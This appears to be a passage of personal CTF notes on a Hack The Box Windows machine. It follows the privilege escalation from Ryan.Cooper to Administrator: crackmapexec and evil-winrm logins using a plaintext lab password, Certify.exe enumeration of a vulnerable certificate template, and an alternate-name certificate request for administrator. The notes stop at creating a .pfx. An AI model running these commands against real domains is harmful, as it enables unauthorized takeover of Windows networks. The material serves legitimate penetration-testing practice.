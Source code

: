 `cme smb 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3` 

No matter what cme will say these creds worked, but if it doesn't say "pwned" we got nothing. 

`cme winrm 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3` 

Pwn3d! through winrm!

![[Pasted image 20241217190344.png]]
If this didn't work would've tried #RunAsCs tool from initial access shell. 

https://github.com/antonioCoco/RunasCs

Login using #evilwinrm with new found creds 

`evil-winrm -i 10.10.11.202 -u ryan.cooper -p NuclearMosquito3`

![[Pasted image 20241217190816.png]]
Going back to `C:\programdata` and running `Certify.exe` again.

`.\certify.exe find /vulnerable`

SQL-SVC user didn't have the permissions that this cert required to gather all the data 

The `UserAuthentication` template is vulnerable. 

![[Pasted image 20241217191116.png]]

Go to certify github page to see which scenario we have. 

https://github.com/ghostpack/certify

We can do the third scenario from this page. 

![[Pasted image 20241217203639.png]]

We will customize this:
```
C:\Temp>Certify.exe request /ca:dc.theshire.local\theshire-DC-CA /template:VulnTemplate /altname:localadmin
```

First, running `net user` to get admin name `Administrator`

![[Pasted image 20241217203932.png]]
```
C:\Temp>Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator
```
Now we can use this ticket to authenticate as administrator 

![[Pasted image 20241217204310.png]]
Copy and paste the cert into new file `cert.pem`

Use provided openssl command to create a `.pfx` file

![[Pasted image 20241217204428.png]]
